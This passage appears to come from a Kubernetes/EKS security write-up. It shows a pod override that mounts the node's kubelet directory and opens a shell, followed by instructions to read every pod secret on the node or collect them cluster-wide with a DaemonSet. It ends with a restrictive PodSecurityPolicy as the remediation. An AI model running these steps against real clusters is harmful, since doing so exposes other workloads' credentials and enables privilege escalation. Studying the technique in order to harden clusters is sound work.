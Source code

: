     `overrides.json`:
    ```json
    {
      "apiVersion": "v1",
      "spec": {
        "containers": [
          {
            "name": "shell",
            "image": "busybox",
            "command": ["sh"],
            "stdin": true,
            "stdinOnce": true,
            "tty": true,
            "volumeMounts": [
              {
                "name": "kubelet-volume",
                "mountPath": "/var/lib/kubelet"
              }
            ]
          }
        ],
        "volumes": [
          {
            "name": "kubelet-volume",
            "hostPath": {
              "path": "/var/lib/kubelet"
            }
          }
        ]
      }
    }
    ```
  * Read all currently mounted secrets from `/var/lib/kubelet/pods/*/volumes/kubernetes.io~secret/*`

Escalation from here depends on what's running on the node -- good motivation to limit the privileges of your service accounts, as there is nothing running by default in EKS that would allow further privilege escalation. Another approach would be to run a [DaemonSet](https://kubernetes.io/docs/concepts/workloads/controllers/daemonset/) and grab secrets from every node.

Result: access to all secrets for pods scheduled on the underlying host.

# Remediation
Remediating these issues involves limiting these unsafe features via [Pod Security Policy](https://kubernetes.io/docs/concepts/policy/pod-security-policy/).

```yaml
---
apiVersion: extensions/v1beta1
kind: PodSecurityPolicy
metadata:
  name: default
  annotations:
    seccomp.security.alpha.kubernetes.io/allowedProfileNames: 'docker/default'
    seccomp.security.alpha.kubernetes.io/defaultProfileName:  'docker/default'
spec:
  privileged: false
  allowPrivilegeEscalation: false
  allowedCapabilities: []  # default set of capabilities are implicitly allowed
  volumes:
  - 'configMap'
  - 'emptyDir'
  - 'projected'
  - 'secret'
  - 'downwardAPI'
```